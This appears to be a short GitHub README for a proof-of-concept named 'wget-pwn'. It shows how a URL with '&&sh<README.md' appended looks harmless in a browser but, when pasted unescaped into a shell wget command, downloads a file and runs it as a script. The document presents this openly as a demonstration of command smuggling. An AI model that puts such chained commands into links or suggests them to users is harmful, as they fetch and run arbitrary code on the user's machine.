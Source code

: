 wget-pwn
=========


A click on the following link in your browser will only display this readme file.


[README.md](https://github.com/markus-perl/wget-pwn/master/README.md&&sh<README.md)


But downloading this link unescaped with wget will execute arbitary code.


    wget --no-check-certificate https://raw.githubusercontent.com/markus-perl/wget-pwn/master/README.md&&sh<README.md
    
    
How it works
------------

The link uses the & char to concat a bash command with the original download link. The & char is a valid char within a link but will be interpreted as a control when used in bash. 
